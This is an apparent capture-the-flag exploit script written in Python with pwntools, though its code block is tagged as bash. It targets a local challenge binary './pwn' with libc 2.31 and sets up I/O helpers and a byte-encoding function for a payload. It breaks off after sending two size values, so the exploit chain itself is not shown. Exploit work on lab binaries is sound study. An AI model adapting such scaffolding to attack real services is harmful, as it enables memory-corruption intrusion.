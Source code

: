 ##### exp：

```bash
# encoding = utf-8
from pwn import *
from pwnlib.rop import *
from pwnlib.context import *
from pwnlib.fmtstr import *
from pwnlib.util.packing import *
from pwnlib.gdb import *
from ctypes import *
import os
import sys
import time
import base64
# from ae64 import AE64
# from LibcSearcher import *

context.os = 'linux'
context.arch = 'amd64'
context.log_level = "debug"

name = './pwn'

debug = 0
if debug:
    p = remote('127.0.0.1',8000)
else:
    p = process(name)

libcso = './libc-2.31.so'
libc = ELF(libcso)
elf = ELF(name)

s       = lambda data               :p.send(data)
sa      = lambda delim,data         :p.sendafter(delim, data)
sl      = lambda data               :p.sendline(data)
sla     = lambda delim,data         :p.sendlineafter(delim, data)
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data,num           :u32(p.recvuntil(data)[-num:].ljust(4,b'\x00'))
uu64    = lambda data,num           :u64(p.recvuntil(data)[-num:].ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')
context.terminal = ['gnome-terminal','-x','sh','-c']

def write(content):
    res = b''
    for i in range(len(content)):
        res += b'.' + p8(content[i]) + b'>'
    return res

def dbg():
   gdb.attach(proc.pidof(p)[0])
   pause()

ru('size\n')
sl(str(0x100000))
ru('size\n')
sl(str(0x100))
```